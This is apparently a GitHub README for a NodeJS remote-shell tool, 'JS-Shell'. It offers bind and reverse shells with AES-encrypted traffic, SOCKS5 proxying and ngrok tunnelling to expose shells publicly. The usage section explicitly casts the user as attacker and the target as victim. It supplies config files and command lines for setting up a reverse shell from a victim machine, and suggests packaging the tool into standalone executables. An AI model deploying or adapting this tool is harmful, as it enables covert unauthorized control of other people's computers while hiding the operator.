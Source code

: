 
# JS-Shell
Netcat-lite NodeJS shell. A little side project I've been tinkering around in my freetime. Also as a way to expand my understanding about byte level encryption and networking.

* Built-in, byte level AES-256 encryption
* Bind connection
* Reverse connection
* Socks5 Proxy support
* Ngrok Tunneling

As a feature, all TCP bytes are encrypted with AES-256. However, nothing's stopping you from using a VPN or a proxy. Speaking of proxies, the client component supports socks5 proxying as well - although I have'nt got TOR proxying worked out yet..
Lastly, if configured, the server can spin up an ngrok endpoint to serve shells pubicly.

# Usage
The setup for the client/server will change according to the operation mode.
- Bind - Server is set up at the victim's system. Attacker(client) connects to the server and opens a shell.
- Reverse - Server is set up at the attacker's side. Victim machine running the client serves the shell to the attacker.

## Install dependencies
```
npm install
```

## Server
### Configuration
A JSON config file is required for the server to operate. Keys used in the server config:
* `aes_password`: String. AES Cipher key. Must have 32 alphanumeric characters. 
* `aes_iv`: String. AES Initalization Vector. Must have 16 alphanumeric characters.
* `listen_address`: String. Local IP address/Hostname.
* `listen_port`: Number. Port number.
* `use_ngrok`: Boolean. Use `true` or `false` if exposing an ngrok endpoint.
* `ngrok_authtoken`: String. ngrok authtoken.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// server_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx", 
    "aes_iv": "zP9joVoh7tguTwr4",
    "listen_address": "0.0.0.0",
    "listen_port": 4444,
    "use_ngrok": true,
    "ngrok_authtoken": "token"
}
```
### Start server
Running the server in its required op mode is done in these methods. It should be noted that if the op mode is not specified, it will be defaulted to the Bind mode.
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]

Bind mode
$ node server.js -o b -c server_config.json

Reverse mode
$ node server.js -o r -c server_config.json
```

## Client
### Configuration
Keys used in the client config:
* `aes_password`: String. AES Cipher key. Must have a 32 alphanumeric characters.
* `aes_iv`: String. AES Initalization Vector. Must have a 16 alphanumeric characters.
* `remote_address`: String. Remote IP address/Hostname.
* `remote_port`: Number. Remote Port number.
* `use_socks_proxy`: Boolean. Use `true` or `false` if using a proxy. Supports Socks5 only.
* `proxy_address`: String. Proxy IP address/Hostname.
* `proxy_port`: Number. Proxy Port number.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// client_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx",
    "aes_iv": "zP9joVoh7tguTwr4",
    "remote_address": "192.168.1.100",
    "remote_port": 4444,
    "use_socks_proxy": true,
    "proxy_address": "192.168.1.101",
    "proxy_port": 1080
}
```
### Start client
Similiarly to the server, Bind mode is defaulted if the op mode is not specified.
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]
  
Bind mode
$ node client.js -o b -c client_config.json

Reverse mode
$ node client.js -o r -c client_config.json
```

# Compiling
Use compilers such as [nexe](https://github.com/nexe/nexe) or [pkg](https://github.com/vercel/pkg) to package the server and client into their own executables.

# Notes
* Running the server/client components on different OSes will yield different Clis. I could expand this to support more types of clis in the future.
  * Windows - cmd
  * Linux/Android(termux) - bash

# Known Bugs
- As AES encryption and decryption happens on the byte level, translation errors are possible. This is especially prevalent on commands with very long outputs like `netstat -anop tcp` or `net users` on windows. Linux on the other hand is minimal.
- I've not gotten socks proxies that use TOR to work with this setup.


# Experimenal (not implemented)
Also experimented with RSA encryption in the early development stages of this project. Dig into the `crypt.js` to find out more. of course, that's not to say I may implement this iun the future..